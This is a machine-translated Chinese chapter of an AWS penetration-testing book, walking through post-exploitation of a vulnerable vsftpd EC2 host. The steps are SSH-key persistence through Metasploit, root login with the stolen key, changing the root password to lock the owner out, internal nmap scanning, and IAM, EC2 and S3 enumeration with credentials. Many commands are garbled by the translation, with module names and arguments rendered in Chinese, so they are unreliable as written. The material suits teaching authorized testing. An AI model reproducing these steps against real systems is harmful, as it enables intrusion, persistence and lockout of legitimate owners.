在真正的 pentest 中，您可以在专用 AWS 网络中进行轴心转换，并发现更多公众可能无法访问的主机！

让我们在目标主机上运行**ifconfig**查看我们的网络信息：



图 9.37–从目标主机提取网络信息

如您所见，我们已经在**eth0**接口上找到了内部网络！虽然我们不会在这里做任何数据透视，但重要的是要理解，从主机到主机的数据透视是非常危险的，对系统来说是危险的。可以在网络内转移而不被发现的黑客通常不会被抓到，并且可以在网络内停留很长时间。为确保攻击者无法在网络上移动，必须准备好日志记录和监视解决方案。

接下来，我们将在当前的**米表**会话中使用一个模块。我们将要使用的模块将为我们窃取 SSH 密钥，并基本上允许我们持久访问系统。

让我们通过输入**背景**继续并退出当前会话。接下来，加载并运行以下模块：

$use post/linux/manage/sshkey_ 持久化

$set 会话 2

$run

这将产生以下输出：

图 9.38–获取 SSH 公钥

现在我们能做的就是用这个来坚持！将被盗的**SSH 密钥**复制到您当地的 Kali 机器上。然后，保存文件并更改权限：

$chmod 400 vsftpd.pem

太好了，现在权限都设置好了，我们可以继续挖隧道进入被攻击的目标：

$ssh-i vsftpd.pemroot@ec2-54-245-170-97.us-west-2.compute.amazonaws.com

这将产生以下输出：

图 9.39–以根用户身份 SSH 到主机目标

现在，对于一些不被捕获就相当危险的事情，让我们将密码更改为我们可以记住的密码，这将拒绝客户端访问系统！

$passwd 根

您将看到如下输出：



图 9.40–更改根帐户的密码

现在，我们可以使用目标用户未知的密码。现在，我们已经将密码更改为 root 帐户，他们将没有 root 级别的访问权限，这意味着我们可以完全控制主机。

在我们结束这个 pentest 之前，我们将看看公开访问 EC2 实例的危险，这些实例也是内部网络的一部分。在这种情况下，我们的攻击主机的内部/专用网络为**172.31.7.0/24**。我们能够使用**ifconfig**命令收集这些信息。请参考*图 9.37*进行说明。

要成功发现系统上的任何主机，我们需要在被利用的**vsftpd**服务器上安装 Nmap。安装和部署**Nmap**将允许我们扫描内部网络中的任何在线主机——或者在我们的例子中是“目标”——我们可以进一步利用这些主机。

接下来，我们将在攻击机器上运行以下命令来安装 Nmap：

$apt 安装 nmap

现在我们可以扫描网络内部，看看是否有其他主机启动！

$nmap 172.31.7.0/24-序号

这将为我们提供以下输出：

图 9.41–扫描新发现的内部主机

看来我们找到了另一个主机，可能会成为另一个被利用的目标。让我们在主机上执行版本扫描，以查看可以在主机上发现什么：

$nmap<<ec2 instance="">>-sV</ec2>

您将看到以下输出：



图 9.42–扫描新发现的内部主机以查找端口和服务

从这里，如果我们愿意，我们可以转向发现的主机；然而，我们现在不会担心这一点。目前，我们有足够的信息让客户了解其安全态势的总体风险。让我们继续讨论需要什么来报告我们在测试中发现的内容。

## 报告漏洞

这个测试让我们测试了一个应用程序，它有一些严重的漏洞，也让我们看到了内部网络中的其他主机。能够转向网络中的其他主机是非常危险的，因为它让我们看到了您通常看不到的系统。此外，根据环境的不同，我们可能会发现非常敏感的数据，如社会保险号码、信用卡号码和医疗保健信息。

重要提示

如果在 pentest 期间发现敏感信息，pentest 必须停止所有操作，直到围绕敏感信息的问题得到纠正。

现在，让我们讨论一下，我们将如何向目标客户陈述我们刚刚发现的环境，以及我们需要做些什么，以便与客户合作，帮助他们纠正问题：

“在 pentest 期间，我们发现一个托管在可供公众使用的服务器上的易受攻击的文件传输应用程序。发现该易受攻击的应用程序 VSFTPD 2.3.4 时没有任何修补程序或更新。一旦我们的 pentester 发现该应用程序，他们就能够使用 pente 攻击位于公共 EC2 实例上的该应用程序 sting 软件称为 Metasploit。该软件允许我们的 pentester 利用该应用程序，访问私有内部网络并发现其他主机。

建议尽快更新应用程序，因为该应用程序很容易被利用，并且任何人都可以看到。此外，请确保网络正确分段，并且只有经过授权的主机才能相互通信。”

这句话同样避免使用可能使客户感到困惑的繁重的技术术语。它提到 pentester 能够轻松利用该应用程序并查看内部网络。它还提到了这个问题的严重性，因为我们可以通过**公共 DNS**名称利用 it。

我们已经成功地运行了两个不同的 Pentest，它们攻击 AWS 中的应用程序，并展示了懒惰管理和缺少补丁带来的一些实际问题。我们还快速了解了如果我们没有正确保护私有网络中的其他实例可能发生的情况，并讨论了如果攻击者获得访问权限可能发生的情况。

现在，让我们来谈一点不同的事情——我们将利用功能测试来发现 AWS 环境中的资源。

# 探索 AWS Metasploit 模块

到目前为止，我们一直在使用 Metasploit 以 pentest 范围内的主机为目标。现在，让我们开始看一些 AWS 模块，我们可以使用这些模块枚举并可能攻击 AWS。出于我们的目的，假设我们能够从客户端获取凭据。这将是功能测试的一部分。我们想看看我们可以利用哪些凭据。

首先，让我们启动我们之前攻击过的易受攻击的**vsftpd**实例和**Pentest Playerd**VPC 中的 Kali 实例。

现在，我们要做一些不同的事情。这是功能测试和黑盒测试的组合。我们将有被盗的凭证，但对环境没有任何线索——因此，我们需要看看我们是否能找到好的东西！

## 窃取用户凭证

我们要进行的第一个练习是窃取属于其他 AWS 用户帐户的凭据。这些凭证允许您访问 AWS 环境并访问资源，如**S3 bucket**和**Lambda**。

此练习将涉及更多的功能测试环境，旨在了解我们可以查看多少帐户。我们不必担心使用找到的帐户，因为它们是我们已经参与的相同环境的一部分。

为了开始工作，让我们在 AWS Kali Linux 实例中启动**Metasploit**。一旦 Metasploit 启动并运行，请使用以下模块：

$use 辅助/云/aws/枚举 iam

现在我们已经加载了模块，是时候用 AWS 帐户的访问密钥对其进行配置了。请回顾[*第 4 章*](04.html#_idTextAnchor171)、*和*，了解如何获取 AWS 环境的凭据。一旦您拥有 AWS 凭证，请在**Metasploit**模块中设置**访问密钥 ID**和**秘密访问密钥**以适合您的帐户。

一旦配置好这些，使用**run**命令执行模块：

图 9.43——盗窃账户

现在我们有更多的用户！您可以使用这些凭据访问其他帐户，并可能扩展环境以进一步攻击。虽然我们不会太担心这一点，但我们很高兴知道，作为这个受到威胁的用户，我们现在可以看到其他帐户，而无需访问 AWS 控制台。现在，让我们使用 EC2 Metasploit 模块来帮助我们发现正在运行的其他潜在 EC2 i 实例。

## 在未知环境中发现 EC2 实例

想象一下某个恶意参与者已经进入了您的环境，但不知道从哪里开始攻击。现在想象一下，恶意黑客能够扫描并发现您环境中的各种实例。这就是下一个练习将帮助我们了解的内容–攻击者如何在几分钟内在您的环境中找到 EC2 实例！

对于本练习，我们将使用 Metasploit 模块来枚举环境中的所有 EC2 实例。我们需要确保我们的**VSFTPD 2-3-4-Final**实例用于在练习中证明概念：

1.  To start, use Metasploit in your AWS Kali instance and use the following module:

    **$使用辅助/云/aws/enum_ec2**

2.  Once you have the module loaded, you will need to configure it with the **access keys** to our AWS environment:

    

    图 9.44–使用凭据配置模块

3.  配置完成后，继续使用**run**命令执行漏洞利用：

图 9.45–发现新主机和专用网络

你会得到很多–查看正在运行的实例！如您所见，我们有实例的公共 IP 和私有 IP。正如我们在本章的*针对易受攻击的服务应用程序*一节中所看到的，发现**VSFTPD 2-3-4-Final**等弱主机可能会导致一些极其严重的情况，从而导致整个系统受损。攻击者可以利用此信息攻击弱服务并破坏内部 AWS 网络。

现在，我们对一些不熟悉的 Meta ASToLIT 模块有了一些乐趣，让我们来看一个更多的模块，它将列举一个我们更熟悉的服务。还记得在[*第 4 章*](04.html#_idTextAnchor171)*利用 S3 桶*中，我们是如何枚举 S3 桶的吗？现在我们将做完全相同的事情，只是我们将使用 Metasploit。

## 使用 Metasploit 枚举 S3 bucKET

我们将现在开始最后一次使用 Metasploit 查看 AWS 环境。我们将使用 account 键快速枚举 AWS 环境中的一些 bucket。这不会访问存储桶中的任何内容，但会让我们知道可以看到哪些存储桶。

要开始，请在 Metasploit 中使用以下模块：

$use 辅助/云/aws/枚举 s3

加载后，继续使用 AWS 凭据配置模块，并使用**run**命令执行模块：

图 9.46–使用 Metasploit 收集 S3 存储桶

我们成功地枚举了我们的**PacktawsPentest**桶！现在我们可以继续利用 bucket 并从 S3 资源中过滤数据。请参阅[*第 4 章*](04.html#_idTextAnchor171)*利用 S3 存储桶*，如果您想刷新关于如何利用 S3 存储桶的记忆。

我们现在正走向本章的结尾。完成所有练习并真正感受到 pentesting AWS 的真实感受真是太棒了！我们在本章中做了很多，到目前为止，在本书中也做了很多。我们现在将进入本书的下一部分，在那里我们将讨论所学到的经验教训以及如何更好地测试。然而，在我们这样做之前，让我们总结一下我们所学到的一切！

# 总结

在本章中，我们更深入地了解了如何使用 Metasploit 来执行两个逼真的 pentesting 场景，这有助于我们更好地理解 AWS 如何实现真正的 pentesting。我们还研究了 AWS 中使用的一些模块，这些模块允许我们在范围内的环境中执行功能测试，并收集信息，以进一步攻击。

接下来，我们将开始了解在完成 pentest 之后会发生什么。了解概念和流程、完成 pentest 后要做什么以及我们如何利用 pentest 后的时间来帮助保护客户，这一点很重要。我们还将开始进一步讨论如何准备 pentest 以及在 AWS 中成功完成 pentest 所需的步骤。

# 进一步阅读

*   有关使用 Metasploit 的更多信息：[https://www.exploit-db.com/docs/english/44040-the-easiest-metasploit-guide-you%E2%80%99ll-ever-read.pdf](https://www.exploit-db.com/docs/english/44040-the-easiest-metasploit-guide-you%E2%80%99ll-ever-read.pdf)
*   亚马逊轻帆：[https://aws.amazon.com/lightsail/](https://aws.amazon.com/lightsail/)